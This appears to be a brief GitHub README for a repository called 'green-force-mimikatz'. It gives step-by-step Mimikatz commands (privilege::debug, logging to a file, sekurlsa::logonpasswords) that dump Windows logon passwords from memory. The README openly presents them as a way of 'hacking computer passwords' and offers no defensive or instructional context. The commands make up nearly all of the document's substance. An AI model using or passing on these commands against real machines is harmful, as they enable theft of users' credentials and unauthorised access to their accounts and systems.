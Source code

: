 # green-force-mimikatz

             .----.   @   @
            / .-"-.`.  \v/
            | | '\ \ \_/ )
           ,-\ `-.' /.'  /
           '---`----'----'


Mimikatz_trunk this is script for hacking computer passwords:

Open mimikatz.exe

Run commands in mimikatz:

> mimikatz # privilege::debug

> mimikatz # log logfile.txt

> mimikatz # sekurlsa::logonpasswords

And you will have user passwords!
